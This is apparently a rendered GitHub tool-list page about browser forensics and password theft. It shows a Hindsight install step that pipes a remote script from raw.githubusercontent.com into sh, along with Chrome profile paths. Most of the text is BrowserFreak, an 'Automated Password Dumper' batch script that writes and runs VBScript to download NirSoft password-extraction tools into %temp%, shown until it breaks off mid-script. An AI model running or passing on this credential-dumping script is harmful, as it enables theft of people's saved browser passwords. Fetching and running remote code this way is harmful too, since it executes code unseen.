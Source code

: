 
```
pip install pyhindsight
curl -sSL https://raw.githubusercontent.com/obsidianforensics/hindsight/master/install-js.sh | sh
```

It has a simple web UI - to start it, run "hindsight_gui.py" (or on Windows, the packaged "hindsight_gui.exe") and visit [http://localhost:8080](http://localhost:8080/)


How worked:

```
- WinXP: [userdir]\Local Settings\Application Data\Google\Chrome\User Data\Default
- Vista/7/8/10: [userdir]\AppData\Local\Google\Chrome\User Data\Default
- Linux: [userdir]/.config/google-chrome/Default
- OS X: [userdir]/Library/Application Support/Google/Chrome/Default
- iOS: \Applications\com.google.chrome.ios\Library\Application Support\Google\Chrome\Default
- Android: /userdata/data/com.android.chrome/app_chrome/Default
- CrOS: \home\user\<GUID>
```


### BrowserFreak

https://github.com/OsandaMalith/BrowserFreak

Automated Password Dumper for Web Browsers with Batch Script

```
BrowserFreak.bat
```


How worked:


```
::Downlaod Chrome::

echo strFileURL = "http://www.nirsoft.net/utils/chromepass.zip" > %temp%\freak\chrome.vbs
echo strHDLocation = "%temp%\freak\chromepass.zip" >> %temp%\freak\chrome.vbs
echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> %temp%\freak\chrome.vbs
echo objXMLHTTP.open "GET", strFileURL, false >> %temp%\freak\chrome.vbs
echo objXMLHTTP.send() >> %temp%\freak\chrome.vbs
echo If objXMLHTTP.Status = 200 Then >> %temp%\freak\chrome.vbs
echo Set objADOStream = CreateObject("ADODB.Stream") >> %temp%\freak\chrome.vbs
echo objADOStream.Open >> %temp%\freak\chrome.vbs
echo objADOStream.Type = 1 >> %temp%\freak\chrome.vbs
echo objADOStream.Write objXMLHTTP.ResponseBody >> %temp%\freak\chrome.vbs
echo objADOStream.Position = 0 >> %temp%\freak\chrome.vbs
echo Set objFSO = Createobject("Scripting.FileSystemObject") >> %temp%\freak\chrome.vbs
echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> %temp%\freak\chrome.vbs
echo Set objFSO = Nothing >> %temp%\freak\chrome.vbs
echo objADOStream.SaveToFile strHDLocation >> %temp%\freak\chrome.vbs
echo objADOStream.Close >> %temp%\freak\chrome.vbs
echo Set objADOStream = Nothing >> %temp%\freak\chrome.vbs
echo End if >> %temp%\freak\chrome.vbs
echo Set objXMLHTTP = Nothing >> %temp%\freak\chrome.vbs
call %temp%\freak\chrome.vbs

::Download Firefox::
echo strFileURL = "http://www.nirsoft.net/utils/passwordfox.zip" > %temp%\freak\fire.vbs
echo strHDLocation = "%temp%\freak\passwordfox.zip" >> %temp%\freak\fire.vbs
echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> %temp%\freak\fire.vbs
echo objXMLHTTP.open "GET", strFileURL, false >> %temp%\freak\fire.vbs
echo objXMLHTTP.send() >> %temp%\freak\fire.vbs
echo If objXMLHTTP.Status = 200 Then >> %temp%\freak\fire.vbs
echo Set objADOStream = CreateObject("ADODB.Stream") >> %temp%\freak\fire.vbs
```
